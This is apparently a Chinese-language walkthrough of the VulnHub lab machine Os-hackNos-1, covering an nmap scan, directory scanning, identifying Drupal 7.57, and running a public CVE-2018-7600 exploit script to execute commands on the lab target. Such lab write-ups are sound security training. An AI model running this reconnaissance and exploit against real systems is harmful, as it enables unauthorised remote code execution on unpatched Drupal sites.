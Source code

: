 nmap 192.168.5.0/24 -O 

其中靶机的信息如下 

Nmap scan report for 192.168.5.132
Host is up (0.00047s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:B0:11:06 (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

其中80端口开启了



**则这里靶机ip地址为192.168.5.132**



故存在网页，则使用dirsearch进行目录扫描

![image-20230628231946258](vulnhub靶机 Os-hackNos-1.assets\image-20230628231946258.png)

发现http://192.168.5.132/drupal/并进行访问

![image-20230628232004225](vulnhub靶机 Os-hackNos-1.assets\image-20230628232004225.png)

通过 http://192.168.0.142/drupal/CHANGELOG.txt 得知grupal的版本为 Drupal 7.57

![image-20230628232023925](vulnhub靶机 Os-hackNos-1.assets\image-20230628232023925.png)

在百度等搜索引擎中搜索该版本的漏洞，找到CVE-2018-7600

![image-20230628232037744](vulnhub靶机 Os-hackNos-1.assets\image-20230628232037744.png)

在github中下载该漏洞的exp

https://github.com/pimps/CVE-2018-7600



git clone https://github.com/pimps/CVE-2018-7600.git

在kali中

```
./drupa7-CVE-2018-7600.py http://192.168.5.132/drupal/ -c ls

或者
python3 drupa7-CVE-2018-7600.py http://192.168.5.132/drupal/ -c ls
```

即可执行ls读取文件
